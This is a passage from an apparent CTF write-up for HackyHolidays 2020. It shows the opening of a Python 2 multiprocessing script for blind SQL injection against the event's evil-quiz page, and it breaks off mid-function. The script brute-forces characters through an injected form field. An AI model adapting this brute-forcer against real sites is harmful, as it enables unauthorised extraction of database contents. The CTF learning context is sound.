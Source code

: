 #### Blind SQLi Script

My exploit script is as thus:
```py
#
# Python 2 Blind SQL Injection Script w/ Multiprocessing
#
# Author: https://github.com/limerencee
# Created during: HackerOne HackyHolidays 2020 CTF
#
#
# Usage:
# In main(), decide if you want to run full_enum() or the speed_run()
# by commenting out either functions. Adjust the number of threads under
# POOL_WORKERS global variable (default 12).
#
# $ python evil-quiz-exploit.py
#

import requests
import sys
from multiprocessing import Pool

MAX_GUESS_LENGTH = 256
POOL_WORKERS = 12

output = []
pool = None

def get_result():
    global output
    result = None

    if len(output) > 0:
        result = "".join(output)
        output = []

    sys.stdout.write("\n")
    return str(result)

def log_result(result):
    global output

    if result:
        pool.terminate()

        if result in range(32, 127):
            char = chr(result)
            output.append(char)
            sys.stdout.write(char)
            sys.stdout.flush()
        else:
            length = str(result)
            output.append(length)

def multi_request(inj, c):
    # Init cookie
    s = requests.Session()
    s.get('https://hackyholidays.h1ctf.com/evil-quiz')

    # Set guess character
    data = {
        "name": inj.replace("[CHAR]", str(c))
    }
```